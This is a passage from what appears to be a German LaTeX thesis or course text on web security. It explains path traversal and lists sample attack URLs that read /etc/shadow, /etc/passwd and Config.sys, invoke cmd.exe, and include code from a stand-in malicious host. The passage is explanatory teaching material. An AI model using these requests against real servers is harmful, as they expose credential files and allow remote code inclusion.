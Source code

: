\subsection{Grundprinzip}
\label{sec:PT_GP}
Es sollte nicht möglich sein auf Dateien, die sich außerhalb vom Web-Directory befinden, zugreifen zu können. Beim Path-Traversal versucht der Angreifer durch Beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. Dafür benutzt der Angreifer ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele ist ersichtlich, dass diese Schwäche einem erlaubt lokale Passwörter und Windows Konfigurationsdateien auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da sie dort Zugriff auf die komplette Festplatte gewährt. In Windows kann lediglich auf das lokale Verzeichnis zugegriffen werden, in welchem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem noch mehr Möglichkeiten verschafft werden können. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\section{HTTP-Protokoll}
Da sich die fortführenden Themen mit dem HTTP-Protokoll und HTTP Requests beschäftigen werden, wird in diesem Kapitel kurz das Hypertext Transfer Protocol (HTTP) erklärt.
